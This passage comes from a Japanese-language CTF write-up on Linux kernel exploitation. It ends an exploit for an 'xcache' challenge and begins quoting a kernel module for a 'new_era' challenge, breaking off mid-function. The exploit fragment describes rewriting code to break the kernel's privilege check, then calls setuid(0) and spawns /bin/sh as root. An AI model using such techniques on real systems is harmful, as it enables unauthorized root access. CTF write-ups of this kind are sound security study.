 ```c
      // test bh, bh == 84ff
      // 下の命令に書き換えることで権限チェックを壊す。

      goto found;
    }
  }

  kpwn::fatal("setuid function was not found. try to change phy_aslr_base");
found:

  setuid(0); // 権限チェックが壊れているので、これでuidが0にセットされる。

  system("/bin/sh");
}
```

![xcache Exploited](https://raw.githubusercontent.com/Iwancof/about-me/main/writeups/xcache_solve.png)

# new_era

こんなカーネルモジュールが差し込まれる。

```c
#define CMD_ALLOC   0xf000
#define CMD_WRITE   0xf001

#define OBJ_SIZE    0x400

typedef struct {
    size_t size;
    char *data;
} request_t;

struct obj {
    char buf[OBJ_SIZE];
};

static struct obj *obj = NULL;
static DEFINE_MUTEX(module_lock);

static long obj_alloc(void) {
    if (obj != NULL) {
        return -1;
    }
    obj = kzalloc(sizeof(struct obj), GFP_KERNEL);
    if (obj == NULL) {
```